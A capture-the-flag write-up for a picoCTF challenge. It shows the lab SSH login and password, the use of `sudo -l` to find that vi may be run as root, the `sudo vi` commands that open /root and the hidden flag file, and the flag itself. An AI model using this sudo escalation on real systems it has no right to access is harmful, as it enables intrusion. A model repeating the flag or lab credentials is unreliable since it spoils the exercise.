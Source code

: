 # URL
https://play.picoctf.org/practice/challenge/363?category=5&page=4

# Challenge
Can you read files in the root file?
The system admin has provisioned an account for you on the main server:
ssh -p 57107 picoplayer@saturn.picoctf.net
Password: j4ks-9nxB-
Can you login and read the root file?

# Work
* The hint explicitly states, "What permissions do you have?"
* Using this hint, I use sudo -l (this prints out your permissions)

```
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

```
sudo /usr/bin/vi /root/
```

* This command takes that granted privilege to view root
<img width="1461" height="418" alt="image" src="https://github.com/user-attachments/assets/803cabf5-ddde-48e2-9a3a-7d3badde63de" />
* This directory has the flag in it!

```
sudo /usr/bin/vi /root/.flag.txt
```

* This prints the flag! picoCTF{uS1ng_v1m_3dit0r_021d10ab}
